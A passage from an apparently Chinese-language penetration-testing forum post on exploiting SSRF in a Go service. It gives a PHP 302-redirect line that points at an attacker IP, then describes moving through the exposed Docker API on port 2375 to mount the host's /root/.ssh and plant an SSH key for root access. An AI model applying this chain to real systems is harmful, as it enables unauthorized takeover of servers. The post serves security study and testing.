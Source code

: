 但是可以利用Go默认的http库，会跟踪302跳转，而且不论是GET还是POST请求。  
使用PHP来简单地构造一个302跳转：  
index.php ip指用于接收信息的攻击ip  
`<?phpheader('Location: http://ip/attack?arbitrary=params');?>`  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5d0f8ffff5962e7d0e652570764c91924bd120c8.png)  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-cac9a758eb02e295f0dfe375bf52873d9374f863.png)  
可以看到攻击流量变成了GET请求，那么就可以像大部分的SSRF一样，构造payload进行攻击。

#### 进阶getshell

我们可以利用ssrf漏洞，尝试攻击Docker集群的2375端口，执行docker命令，比如操作container、image等  
那么如果当前运行的container，或者image内有代码或者其他敏感信息，就可以继续深入了。  
但是执行命令还是docker的环境内，无法直接控制宿主机。  
那么怎么才能控制宿主机呢？  
可以从docker命令本身下手，docker 运行 container的时候，可以将本地文件或目录作为volume挂载到container内，并且在container内部，这些文件和目录是可以修改的。前提是服务器是否有ssh服务，如果有的话，那么直接把/root/.ssh目录挂载到container内，比如/tmp/.ssh，然后修改/tmp/.ssh/authorized\_keys 文件，把自己的public key写进去，修改权限为600，然后就可以以root用户登录了。  
详细的利用方式可以看https://www.leavesongs.com/PENETRATION/the-collision-of-containers-and-the-cloud-pentesting-a-MinIO.html
